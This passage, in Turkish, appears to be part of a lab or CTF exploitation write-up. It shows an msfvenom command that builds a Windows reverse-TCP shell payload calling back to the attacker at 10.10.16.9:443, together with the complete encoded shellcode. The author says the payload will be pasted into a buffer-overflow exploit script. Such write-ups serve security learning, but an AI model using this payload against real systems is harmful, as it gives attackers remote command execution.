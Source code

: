 Bu ayarlarla oluşturulan shellcode, hedef sistemde bellek bozulması (buffer overflow, SEH overwrite vb.) gibi bir güvenlik açığını tetikleyerek saldırganın remote komut yürütmesine olanak tanıyacak.

```
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.16.9 LPORT=443 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f py -v shellcode -a x86 --platform windows
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai failed with A valid opcode permutation could not be found.
Attempting to encode payload with 1 iterations of x86/call4_dword_xor
x86/call4_dword_xor succeeded with size 348 (iteration=0)
x86/call4_dword_xor chosen with final size 348
Payload size: 348 bytes
Final size of py file: 1953 bytes
shellcode =  b""
shellcode += b"\x31\xc9\x83\xe9\xaf\xe8\xff\xff\xff\xff\xc0"
shellcode += b"\x5e\x81\x76\x0e\x1c\xf6\xfe\xc8\x83\xee\xfc"
shellcode += b"\xe2\xf4\xe0\x1e\x7c\xc8\x1c\xf6\x9e\x41\xf9"
shellcode += b"\xc7\x3e\xac\x97\xa6\xce\x43\x4e\xfa\x75\x9a"
shellcode += b"\x08\x7d\x8c\xe0\x13\x41\xb4\xee\x2d\x09\x52"
shellcode += b"\xf4\x7d\x8a\xfc\xe4\x3c\x37\x31\xc5\x1d\x31"
shellcode += b"\x1c\x3a\x4e\xa1\x75\x9a\x0c\x7d\xb4\xf4\x97"
shellcode += b"\xba\xef\xb0\xff\xbe\xff\x19\x4d\x7d\xa7\xe8"
shellcode += b"\x1d\x25\x75\x81\x04\x15\xc4\x81\x97\xc2\x75"
shellcode += b"\xc9\xca\xc7\x01\x64\xdd\x39\xf3\xc9\xdb\xce"
shellcode += b"\x1e\xbd\xea\xf5\x83\x30\x27\x8b\xda\xbd\xf8"
shellcode += b"\xae\x75\x90\x38\xf7\x2d\xae\x97\xfa\xb5\x43"
shellcode += b"\x44\xea\xff\x1b\x97\xf2\x75\xc9\xcc\x7f\xba"
shellcode += b"\xec\x38\xad\xa5\xa9\x45\xac\xaf\x37\xfc\xa9"
shellcode += b"\xa1\x92\x97\xe4\x15\x45\x41\x9e\xcd\xfa\x1c"
shellcode += b"\xf6\x96\xbf\x6f\xc4\xa1\x9c\x74\xba\x89\xee"
shellcode += b"\x1b\x09\x2b\x70\x8c\xf7\xfe\xc8\x35\x32\xaa"
shellcode += b"\x98\x74\xdf\x7e\xa3\x1c\x09\x2b\x98\x4c\xa6"
shellcode += b"\xae\x88\x4c\xb6\xae\xa0\xf6\xf9\x21\x28\xe3"
shellcode += b"\x23\x69\xa2\x19\x9e\xf4\xc2\x0c\xff\x96\xca"
shellcode += b"\x1c\xf7\x45\x41\xfa\x9c\xee\x9e\x4b\x9e\x67"
shellcode += b"\x6d\x68\x97\x01\x1d\x99\x36\x8a\xc4\xe3\xb8"
shellcode += b"\xf6\xbd\xf0\x9e\x0e\x7d\xbe\xa0\x01\x1d\x74"
shellcode += b"\x95\x93\xac\x1c\x7f\x1d\x9f\x4b\xa1\xcf\x3e"
shellcode += b"\x76\xe4\xa7\x9e\xfe\x0b\x98\x0f\x58\xd2\xc2"
shellcode += b"\xc9\x1d\x7b\xba\xec\x0c\x30\xfe\x8c\x48\xa6"
shellcode += b"\xa8\x9e\x4a\xb0\xa8\x86\x4a\xa0\xad\x9e\x74"
shellcode += b"\x8f\x32\xf7\x9a\x09\x2b\x41\xfc\xb8\xa8\x8e"
shellcode += b"\xe3\xc6\x96\xc0\x9b\xeb\x9e\x37\xc9\x4d\x1e"
shellcode += b"\xd5\x36\xfc\x96\x6e\x89\x4b\x63\x37\xc9\xca"
shellcode += b"\xf8\xb4\x16\x76\x05\x28\x69\xf3\x45\x8f\x0f"
shellcode += b"\x84\x91\xa2\x1c\xa5\x01\x1d"

```



Bu shellcode'u script'in içine alacağım ve varsayılanın yerine yapıştıracağım. Ayrıca, bir gün geri döndüğümde ne yaptığını bilmem için, onu oluşturmak için çalıştırdığım msfvenom komut dizesiyle birlikte üzerine bir yorum yapıştırmayı seviyorum.
